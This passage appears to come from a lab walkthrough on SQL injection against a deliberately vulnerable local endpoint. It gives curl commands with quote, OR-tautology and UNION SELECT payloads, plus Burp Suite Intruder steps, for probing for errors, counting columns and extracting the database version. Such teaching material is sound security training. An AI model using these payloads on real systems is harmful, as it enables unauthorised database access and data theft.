 **Expected Response:** Normal user data retrieval
**Explanation:** Test the basic functionality to understand normal behavior and identify potential injection points.

#### Step 2: Test for SQL Injection
**Objective:** Insert SQL metacharacters to trigger errors

**Using curl:**
```bash
curl "http://localhost:5000/api/vuln/sqli?id=1'"
```

**Using Burp Suite:**
1. Send the request to Repeater
2. Modify the `id` parameter to: `1'`
3. Click "Send" and observe the response
4. Try additional payloads:
   - `1"`
   - `1' OR '1'='1`
   - `1' AND '1'='1`

**Burp Suite Intruder Setup:**
1. Send request to Intruder (Ctrl+I)
2. Set attack type to "Sniper"
3. Add payload position around the `id` parameter value
4. Load SQL injection payload lists from:
   - Payloads → Load → SecLists/sql-injection
5. Start attack and analyze response differences

**Expected Response:** SQL syntax error or different behavior
**Explanation:** The single quote should trigger a SQL syntax error if the application is vulnerable to SQL injection.

#### Step 3: Determine Column Count
**Objective:** Use UNION SELECT to find the number of columns

```bash
curl "http://localhost:5000/api/vuln/sqli?id=1 UNION SELECT NULL--"
```

**If error occurs, try:**
```bash
curl "http://localhost:5000/api/vuln/sqli?id=1 UNION SELECT NULL,NULL--"
curl "http://localhost:5000/api/vuln/sqli?id=1 UNION SELECT NULL,NULL,NULL--"
```

**Explanation:** Add NULL values until no error occurs to determine the exact number of columns in the original query.

#### Step 4: Extract Database Information
**Objective:** Retrieve database version and structure

```bash
curl "http://localhost:5000/api/vuln/sqli?id=1 UNION SELECT version()--"
```

**For multiple columns:**
```bash
curl "http://localhost:5000/api/vuln/sqli?id=1 UNION SELECT version(),NULL--"
```
